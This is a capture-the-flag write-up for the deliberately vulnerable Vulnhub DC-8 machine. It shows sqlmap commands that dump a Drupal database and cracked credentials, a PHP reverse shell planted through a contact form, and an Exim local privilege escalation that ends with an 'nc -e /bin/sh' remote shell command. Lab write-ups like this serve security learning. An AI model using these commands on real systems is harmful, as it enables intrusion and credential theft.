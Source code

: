 ```yaml
---
layout: post
title: Vulnhub - DC-8 writeup
date: 2019-09-06 7:42 PM
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/">DC-8</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/DCAU7"> DCAU7</a></h4>

## Nmap

![](images/dc8/nmap.png)

only two ports are open. A SSH service and a HTTP service with a `robots.txt` file present.

***

## HTTP

![](images/dc8/website.png)

There was something odd. The links on the left side resulted in `IP/?nid=2` type of URL but links with same name on the header caused in URLs of type `IP/node/2`. So I Checked the `?nid=` type URLs for LFI and got some SQL related error.

![](images/dc8/error.png)

And since it's related to SQL I decided to run SQLmap on it.

Sqlmap found `nid` to be vulnerable and using that I got 2 DB in output.

`➜ sqlmap -u http://192.168.56.122/\?nid\= --level 4 --dbs `

![](images/dc8/database.png)

I used the `d7db` DB to dump all the tables in it. In output I got `88` tables.

`➜ sqlmap -u http://192.168.56.122/\?nid\= --level 4 -D d7db --tables`

![](images/dc8/tables.png)

The first table I dumped was `users` in which I found 3 users along with their password hash.

`➜ sqlmap -u http://192.168.56.122/\?nid\= --level 4 -D d7db -T users --dump`

![](images/dc8/users.png)

I saved those hashes to a file and ran `John` on it.

![](images/dc8/crack.png)

`john:turtle`

So Now we have credential which we can use to login in Drupal. The login page can be found on `/user/login/`

![](images/dc8/login.png)

After spending lot of time I figure out that we need to edit the `form-setting` and change the `text format` to `php code`.

![](images/dc8/form-settings.png)

And then we can submit the form which will trigger the reverse shell.

![](images/dc8/submit-random.png)

__NOTE__: Make sure to have some random text above your PHP code. If you have only php code in that(`Submission setting`) section then submitting the form won't trigger any thing.
Thanks to __[@DCAU7](https://twitter.com/DCAU7)__ for pointing that out.

If you did everything right then after submitting a random `Contact us` form info you'll get the reverse shell.

![](images/dc8/rev.png)

***

## Privilege escalation

I ran the enumeration script but didn't find anything good. I tried looking for everything like sudo right or SUIDs but I found nothing.

After sometime [@DCAU7](https://twitter.com/DCAU7) and [@theart42](https://twitter.com/theart42) told me that we have to exploit `exim4` binary.

We can see `exim4` is set as SUID

![](images/dc8/suid.png)

To see the exact version of `exim4` we can use `dpkg -l`

![](images/dc8/dpkg.png)

Since the version is `4.89` we can use [Exim 4.87 - 4.91 - Local Privilege Escalation](https://www.exploit-db.com/exploits/46996).

Download the exploit and run it as `bash exploit.sh -m netcat` and the moment you get the message saying localhost is opened run command like `nc -e /bin/sh IP PORT` to get the root shell.

![](images/dc8/run-exp.png)

After running that nc command I got root shell on my `nc` listener.

![](images/dc8/root-shell.png)

Now get the root flag

![](images/dc8/root.png)

***

This was an awesome machine. The method to get the reverse shell was amazing, because even though in `drupal 8` the PHP code exec thing is removed from core we still were able to run that kind of code, that is because of giving editing access `john` had.

Also the root part kinda new too me because I never exploited exim4 before even if it was marked as SUID, but as [@theart42](https://twitter.com/theart42) said `Version of the binary also matters`.

Thanks to [@DCAU7](https://twitter.com/DCAU7) for this awesome addition to the awesome series.Also thanks to [@theart42](https://twitter.com/theart42).

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
